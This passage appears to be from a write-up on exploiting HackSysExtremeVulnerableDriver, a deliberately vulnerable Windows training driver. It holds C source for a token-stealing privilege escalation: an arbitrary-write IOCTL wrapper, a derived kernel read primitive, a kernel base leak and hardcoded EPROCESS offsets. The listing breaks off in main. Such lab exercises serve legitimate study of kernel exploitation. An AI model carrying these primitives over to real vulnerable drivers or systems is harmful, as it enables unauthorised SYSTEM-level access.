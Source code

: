 This code will replace the token of the current process with that of the `PsInitialSystemProcess` (the PID 4 process). 

```c
#include <Windows.h>
#include <Psapi.h>
#include <stdio.h>

#define IOCTL(Function) CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)
#define HEVD_IOCTL_ARBITRARY_WRITE IOCTL(0x802)

typedef unsigned long long u64;

typedef struct _WRITE_WHAT_WHERE {
	PVOID What;
	PVOID Where;
} WRITE_WHAT_WHERE;

void WriteQWORD(HANDLE hHEVD, PVOID what, PVOID where) {

	WRITE_WHAT_WHERE www = {
		.What  = what,
		.Where = where,
	};

	DWORD dwBytesReturned = 0;
	DeviceIoControl(
		hHEVD,
		HEVD_IOCTL_ARBITRARY_WRITE,
		&www,
		sizeof(WRITE_WHAT_WHERE),
		NULL,
		0x00,
		&dwBytesReturned,
		NULL);
}

u64 ReadQWORD(HANDLE hHEVD, PVOID what) {
	u64 val = 0;
	WriteQWORD(hHEVD, what, &val);
	return val;
}

u64 GetKernelBase(void) {
	LPVOID drivers[1024] = { 0 };
	DWORD cbNeeded;
	EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded);
	return (u64)drivers[0];
}

int main(void) {

	const u64 TokenOffset                  = 0x4b8;    // dt _EPROCESS Token 
	const u64 ActiveProcessLinksOffset     = 0x448;    // dt _EPROCESS ActiveProcessLinks
	const u64 UniqueProcessIdOffset        = 0x440;    // dt _EPROCESS UniqueProcessId
	const u64 PsInitialSystemProcessOffset = 0xcfc420; // ? nt!PsInitialSystemProcessPtr - nt

	HANDLE hHEVD = CreateFileA(
		"\\\\.\\HackSysExtremeVulnerableDriver",
		GENERIC_READ | GENERIC_WRITE,
		0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	if (hHEVD == INVALID_HANDLE_VALUE) ExitProcess(1);

```